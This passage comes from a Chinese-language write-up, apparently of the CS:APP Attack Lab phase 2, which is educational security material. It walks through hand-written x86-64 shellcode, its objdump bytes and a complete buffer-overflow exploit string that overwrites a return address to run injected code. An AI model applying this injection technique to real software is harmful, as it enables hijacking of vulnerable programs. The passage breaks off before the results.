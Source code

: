 第三条要生成的指令应该是：

```
subq $0x8,%rsp
movl 0x4017ec,($rsp)
```

最后一条插入的指令是`ret`，在这个过程中，`%rsp`处的内容会被赋值给`%rip`，`%rsp`会自动加上 8。

最后插入数条`nop`指令实现 PC 的顺序累加。

由于这些指令在 Appendix A 表格中没有，所以我们需要手动生成。我们将如下内容保存在文件中：

```
    movl $0x6044e4,%eax
    movl (%eax),%edi
    subq $0x8,%rsp
    movl $0x4017ec,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

然后使用`gcc -c ph2.s`生成`ph2.o`文件，然后使用`objdump -d ph2.o > ph2.d`，打开`ph2.d`，有如下内容：

```

ph2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	b8 e4 44 60 00       	mov    $0x6044e4,%eax
   5:	67 8b 38             	mov    (%eax),%edi
   8:	48 83 ec 08          	sub    $0x8,%rsp
   c:	c7 04 24 ec 17 40 00 	movl   $0x4017ec,(%rsp)
  13:	c3                   	retq
  14:	90                   	nop
  15:	90                   	nop
  16:	90                   	nop
  17:	90                   	nop
```

那么我们所需要的字节就是`b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3`，共 20 字节。后续再插入 20 个字节的`nop`(0x90)

完整的字符串是`b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55`，我将其保存在`phase2.txt`中。

> 注：一开始把`0x5561dc78`打成了`0x5564dc78`导致出现访问了未被初始化的位置，出现了 segmentation fault。在输入地址的时候要小心谨慎，不要出现太多问题。
>
> 此外，注入代码的时候需要手动添加`ret`指令，否则程序不知道要返回，就算 buffer overflow 覆盖了返回地址也没用。

结果如下：
